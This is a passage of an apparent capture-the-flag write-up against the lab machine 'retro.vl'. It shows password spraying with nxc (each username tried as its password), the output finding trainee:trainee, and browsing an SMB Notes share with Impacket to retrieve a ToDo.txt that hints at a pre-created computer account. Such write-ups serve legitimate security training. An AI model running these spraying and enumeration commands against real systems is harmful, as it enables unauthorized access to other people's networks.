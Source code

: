 Since there's no other files present that might contain credentials, we can try spraying weak and/or common credentials against the list of usernames we enumerated earlier. We can also check to see if any users are using their username as a password. 

Doing this, we find that `trainee:trainee` worked. 

```console
➜  retro nxc smb $ip -u users -p users --no-bruteforce --continue-on-success
SMB         10.10.88.241    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.88.241    445    DC               [-] retro.vl\Administrator:Administrator STATUS_LOGON_FAILURE
SMB         10.10.88.241    445    DC               [-] retro.vl\Guest:Guest STATUS_LOGON_FAILURE
SMB         10.10.88.241    445    DC               [-] retro.vl\DC$:DC$ STATUS_LOGON_FAILURE
SMB         10.10.88.241    445    DC               [+] retro.vl\trainee:trainee
SMB         10.10.88.241    445    DC               [-] retro.vl\BANKING$:BANKING$ STATUS_LOGON_FAILURE
SMB         10.10.88.241    445    DC               [-] retro.vl\jburley:jburley STATUS_LOGON_FAILURE
SMB         10.10.88.241    445    DC               [-] retro.vl\tblack:tblack STATUS_LOGON_FAILURE
```

Checking share permissions again with that user shows that we now have access to the `Notes` share. Looking into that share with `smbclient.py` we find a text file named `ToDo.txt`. 

 We can get `ToDo.txt` out of the Notes share and read it. 

```console
➜  retro smbclient.py -dc-ip $ip trainee:trainee@$ip
Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Notes
SYSVOL
Trainees
# use Notes
# ls
drw-rw-rw-          0  Sun Jul 23 17:03:16 2023 .
drw-rw-rw-          0  Wed Jul 26 04:54:14 2023 ..
-rw-rw-rw-        248  Sun Jul 23 17:05:56 2023 ToDo.txt
# get ToDo.txt
```

The contents of the `ToDo.txt` file indicate that there is a pre-created computer account in use in the environment. 

```console
➜  retro cat ToDo.txt
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best

James 
```
